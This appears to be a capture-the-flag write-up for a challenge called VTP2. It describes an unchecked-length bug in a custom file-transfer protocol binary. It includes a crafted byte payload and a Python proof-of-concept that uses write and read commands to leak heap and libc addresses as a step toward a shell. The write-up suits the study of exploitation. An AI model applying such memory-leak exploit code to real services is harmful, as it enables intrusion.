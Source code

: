 ## VTP2

For challenge 2, you're preferred to get shell to get the second flag. There are two intended bugs lies on the binary.

### Infoleak (bug1)

The first one is, when unpacking `variable`, VTP won't check whether the length of `variable` will exceed the `data`, which means when you send a `variable`, you can set the length in `info` longer than the real following data length.

For example, we can send a `raw` as follows.

```
b4 00 00 10 00 00 41 41 41 41
```

But how to exploit the bug? Just use `WRFILE`, and forge the file content(`raw`) as above. Then VTP will write the filecontent containing `AAAA` and other data lies on heap behind `data`. Then we will get a infoleak after using `RDFILE`.

Here is the PoC for infoleak. Heap address and libc address can be leaked.

```
def leak():
    zeroftp_login('admin', 'admin')

    zeroftp_wrfile('X'*0x100, 'x'*0x100)
    zeroftp_rmfile('X'*0x100)

    payload  = zero_pack_int(0x7, endian='big')
    payload += zero_pack_string('Y'*8)
    # raw
    info = 0
    info = BITS_SET_VAL(info, 0, 3, 3)
    len_len = (len(bin(0xf0)[2:])-1)/8+1
    raw_len= pack(0xf0, 8*len_len, endian='little')
    info = BITS_SET_VAL(info, 3, 4, 1)
    info = BITS_SET_VAL(info, 4, 8, len_len)
    payload += chr(info)
    payload += raw_len
    payload += 'bbbbbbbb'
    zero_send(payload)
    ret = zero_recv()

    ret = zeroftp_rdfile('Y'*8)
    libc.address = u64(ret[0x2a:][:8]) - 0x3c4b98
    heap = u64(ret[0x2a+8:][:8]) - 0x470
    log.info(hex(libc.address))
    log.info(hex(heap))
    zeroftp_rmfile('Y'*0x8)
    return libc.address, heap
```
